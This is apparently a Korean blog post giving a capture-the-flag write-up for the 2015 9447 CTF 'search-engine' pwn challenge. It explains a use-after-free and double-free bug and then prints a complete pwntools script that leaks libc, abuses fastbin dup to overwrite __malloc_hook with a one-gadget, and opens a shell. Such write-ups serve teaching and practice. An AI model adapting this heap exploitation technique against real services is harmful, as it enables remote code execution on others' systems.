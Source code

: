 ```yaml
---
layout: post
title: "[2015 9447 ctf] search-engine 풀이"
date: 2018-09-12 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>### Ever wanted to search through real life? Well this won't help, but it will let you search strings.
### Find it at search-engine-qgidg858.9447.plumbing port 9447.
### [search](https://github.com/ctfs/write-ups-2015/raw/master/9447-ctf-2015/exploitation/search-engine/search-bf61fbb8fa7212c814b2607a81a84adf)

[how2heap](https://github.com/shellphish/how2heap)의 `fastbin dup into stack` 문제에요.

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![file](/img/2015_9447-ctf/search-engine/01.png)
{: refdef}

### `func_search`

1. 검색할 문자열의 길이와 문자열을 입력

2. 전체 문자열이 존재하는지 검사

3. 부분 문자열의 길이와 문자열을 입력받은 값과 비교

4. 다음 구조체가 없을 때 까지 계속 검사

5. 일치하는 문자열이 있으면 전체 문자열을 전체 문자열의 길이만큼 출력하고 `free`할 지 선택

6. `free`를 하면 전체 문자열을 그 길이만큼 `\x00`으로 초기화하고 전체 문자열만 `free`

### `func_index`

1. 등록할 문자열의 길이와 문자열을 입력

2. 문자열의 띄어쓰기마다 구조체를 생성

### 구조체

```
[prev_size][chunk_size]
[*부분 문자열][부분 문자열의 길이]
[*전체 문자열][전체 문자열의 길이]
[*다음 구조체]
```

- - -
# 0x01. 취약점 분석

이 문제에 취약점은 문자열 검색 후에 `Delete`로 문자열은 `free`해주는데 구조체는 그대로인 거에요.

문자열을 초기화하고 `free`하지만 `free`를 하면 `fd`같은게 생기기 때문에 `func_search`의 2번에서 검사가 똑디 안돼요.

이걸 확인해 보려면 아래처럼 코드를 작성하면 돼요.

```python
func_index("AAAA B".ljust(0x68, "C"))
func_index("D"*0x68)

func_search("D"*0x68)
s.sendline("y")
func_search("AAAA")
s.sendline("y")

func_search("\x00")
```

{: refdef: style="text-align: center;"}
![func_index](/img/2015_9447-ctf/search-engine/02.png)
{: refdef}

우선 `func_index`를 두 번 하면 위처럼 돼요.

위에서부터 순서대로 `"D"*0x68`, `"C"*0x61`, `"B"`, `"AAAA"` 에요.

{: refdef: style="text-align: center;"}
![func_search](/img/2015_9447-ctf/search-engine/03.png)
{: refdef}

둘 다 `delete`한 상태에요.

구조체의 값은 그대로인데 `문자열 chunk`를 보면 `"D"*0x68` 대신 `\x00`만 들어있고 `"AAAA"` 부분엔 `"D"*0x68`의 주소가 아닌 다른 주소가 들어가 있어요.

왜 그런가 보니까 `func_search`함수를 보면 검색이 목적으로 `문자열 chunk`를 처음에 할당해줘요. 이 `chunk`는 함수가 끝날 때 `free` 하니까 `"D"*0x68`을 `delete`할 때 기존의 `문자열 chunk`가 `free`되고 검색을 위해 할당한 `문자열 chunk`가 `free`돼요.

쨋든 이걸로 `heap`영역의 주소도 알아낼 수 있고 `delete`를 또 해주면 `Double Free Bug`도 발생해요.

- - -
# 0x02. 공격 방법

`Double Free Bug`가 발생하니까 `fastbin`의 `fd`를 조작해서 `malloc_hook`쪽에 `chunk`를 할당받아서 `malloc_hook`에 `magic_gadget`을 넣을거에요.

그러려면 `libc_leak`을 해야하는데 그건 `unsorted_bin`을 사용할 거에요. 위 방법이랑 똑같이 하면 `bk` 부분에서 `libc_leak`을 할 수 있어요.

`fastbin`을 사용할 땐 순서를 신경써야 하는데 전 단순하게 `0x70 chunk`를 세 개 할당받고 순서대로 `free`해준 다음 두 번째 `chunk`를 다시 `free`해줬어요.

`0x70 chunk`를 사용하는 이유는 `malloc_hook` 쪽에는 라이브러리의 주소들이 적혀있는데 이 값이 `0x7f~~~`로 생겨서에요. `0x7f`를 `fastbin`의 `size`로 착각하게끔 주소를 바꿔주면 `fastbin`인 줄 알고 그쪽으로 `chunk`를 할당해줘요.

1. `unsorted bin`을 이용해 `libc_leak` (`main_arena+88`)

2. `0x70 chunk`를 `Double Free` (이 단계가 끝나면 `head` - `2` - `3` - `2` - `1` - `tail`)

3. `malloc_hook - 0x13` 주소가 `fd`에 들어가게끔 `0x70 chunk` 할당 (`head` - `3` - `2` - `malloc_hook - 0x13` - `tail`)

4. 두 번 더 `0x70 chunk`를 할당 (`head` - `malloc_hook - 0x13` - `tail`)

5. `malloc_hook`에 `magic_gadget`이 들어가끔 `0x70 chunk` 할당

- - -
# 0x03. 익스플로잇

```python
rom pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = "search-engine-qgidg858.9447.plumbing"
PORT = 4444
#PORT = 9447

s = remote(HOST, PORT)
pause()

elf = ELF("./search-engine")
libc = ELF("./libc.so.6")

malloc_hook_off = 0x3C4B10
leak_off = 0x3c4b78
one_off = 0xf02a4

def func_search(content):
    s.sendline("1")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("word:\n")
    s.sendline(content)

def func_index(content):
    s.sendline("2")

    s.recvuntil("size:\n")
    s.sendline(str(len(content)))

    s.recvuntil("sentence:\n")
    s.sendline(content)

# libc_leak
func_index(("1"*0x10 + " 2 ").ljust(0x118, "3"))
func_index("4 ".ljust(0x118, "5"))

func_search("4")
s.sendline("y")
func_search("1"*0x10)
s.sendline("y")

func_search("\x00")
s.recvuntil("Found 280: ")
s.sendline("n")
s.recv(8)
libc_leak = u64(s.recvuntil("\x00").ljust(8, "\x00"))
real_base = libc_leak - leak_off
real_malloc_hook = real_base + malloc_hook_off
real_one = real_base + one_off

print
log.info("real_base : " + hex(real_base))
log.info("real_malloc_hook : " + hex(real_malloc_hook))
log.info("real_one : " + hex(real_one))
print

# Double Free Bug
func_index(("A"*0x10 + " BB ").ljust(0x68, "C"))
func_index(("D"*0x10 + " EEE ").ljust(0x68, "F"))
func_index(("G"*0x10 + " HHHH ").ljust(0x68, "I"))

func_search("BB")
s.sendline("y")
func_search("EEE")
s.sendline("y")
func_search("HHHH")
s.sendline("y")

func_search("\x00"*0x3)
s.sendline("y")

# exploit
payload = p64(real_malloc_hook - 0x13)
func_index(payload.ljust(0x68, "J"))
func_index("K"*0x68)
func_index("L"*0x68)

payload = "\x7f\x00\x00"
payload += p64(real_one)
func_index(payload.ljust(0x68, "\x00"))

s.interactive()
```

### 9447{this_w4S_heAPs_0f_FUn}
